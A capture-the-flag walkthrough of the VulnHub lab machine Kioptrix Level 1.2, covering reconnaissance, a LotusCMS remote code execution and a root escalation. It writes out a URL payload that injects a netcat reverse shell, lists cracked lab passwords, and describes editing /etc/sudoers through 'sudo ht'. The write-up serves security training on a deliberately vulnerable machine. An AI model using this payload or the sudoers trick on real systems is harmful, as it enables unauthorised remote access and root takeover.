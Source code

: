 # Kioptrix: Level 1.2 

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

## Tools
1. [NMap](https://NMap.org)
2. dirb
3. Netcat

## Gaining Access
1. Got IP with netdiscover, in my case IP is 192.168.0.13. At first as usual scanned with nmap.
2. Running dirb gives us some links.
3. If we open the ip there is a website. 
4. If we click on login, we can get login panel powered by LotusCMS.
5. If we google `LotusCMS RCE exploit`. We can find many exploits to get RCE. So, I studied the exploit and crafted a payload for reverse shell. Opening the crafted link gives reverse shell. `http://192.168.0.13/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+<ip address>+<port number>%27)}%3B%23` while listening on netcat if we open that link we will get a reverse shell.

## Priviledge Escalation
1. After some searching, I got some credentials inside `/home/www/kioptrix3.com/gallery/gconfig.php`.
2. We can use this credential on a previously found link using dirb `http://192.168.0.13/phpmyadmin/`. 
3. After logging in we get two username and hash inside database.
4. So, if we decrypt those hash using crackstation, we get password of `dreg` is `Mast3r` and pasword of `loneferret` is `starwars`.
5. We can get ssh using those credentials. As dreg I got nothing important. So, I tried `loneferret` and `sudo` is enabled there and got some `sudo binary`.
6. `su` is not exploitable as user `loneferret`, so I tried to exploit `ht` and to exploit `ht` I need to `export TERM=xterm`.
7. Now I found this article https://vk9-sec.com/ht-privilege-escalation/ and followed these simple steps to root. So, at first I opened `sudo ht` and then pressed `F3` to select `/etc/sudoers` to open.
8. Now added `/bin/bash` to sudoers as instructed in the article and saved the file with `F2` and quit with `F10` or `CTRL+C`.
9. Now just use `sudo /bin/bash` to get root shell.
10. Now we can find a file `Congrats.txt` inside `/root` directory and this is the flag file containing a big paragraph.

Author: [Zishan Ahamed Thandar](https://github.com/ZishanAdThandar/WriteUps/tree/main?tab=readme-ov-file#about-me)
